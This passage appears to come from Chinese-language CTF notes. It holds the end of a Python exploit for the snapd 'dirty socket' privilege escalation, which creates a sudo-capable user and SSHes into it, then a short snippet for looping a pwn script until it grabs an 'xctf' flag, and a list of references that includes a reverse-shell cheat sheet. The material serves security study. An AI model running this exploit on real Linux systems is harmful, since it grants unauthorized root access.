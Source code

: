 ```python
    if 'cannot find user' in http_reply:
        print("[!] Could not find user in the snap store... did you follow"
              " the instructions?")
        print("Here is the API reply:")
        print(http_reply)
        sys.exit()

    if not username:
        print("[!] Something went wrong... Here is the API reply:")
        print(http_reply)
        sys.exit()

    # SSH into localhost with our new root account
    print("[+] Success! Enjoy your new account with sudo rights!")
    cmd1 = 'chmod 600 ' + args.key
    cmd2 = 'ssh ' + username[0] + '@localhost -i ' + args.key
    os.system(cmd1)
    os.system(cmd2)

    print("[+] Hope you enjoyed your stay!")
    sys.exit()



def main():
    """Main program function"""

    # Gotta have a banner...
    print(BANNER)

    # Process the required arguments
    args = process_args()

    # Create a random name for the dirty socket file
    sockfile = create_sockfile()

    # Bind the dirty socket to the snapdapi
    client_sock = bind_sock(sockfile)

    # Exploit away...
    add_user(args, client_sock)

    # Remove the dirty socket file
    os.remove(sockfile)


if __name__ == '__main__':
    main()
```

## 概率性脚本 连续化
加一行read如果eof会直接close掉
```python
    p.sendline("cat flag")
	data=p.readline()
	if "xctf" in data:
		print 1
		f=open("./flag.txt","w")
		f.write(data)
		f.close()
```


[1]: https://blog.csdn.net/chdhust/article/details/8495921
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://ctf-wiki.github.io/ctf-wiki/pwn/linux/arm/environment/
[4]: https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html
[5]: http://syscalls.kernelgrok.com/
[6]: https://github.com/geohot/qira/pull/203
[7]: https://zhuanlan.zhihu.com/p/31918676
[8]: https://www.jianshu.com/p/3a2df9b7c353
[9]: https://www.cyberpunk.rs/ghidra-software-reverse-engineering-framework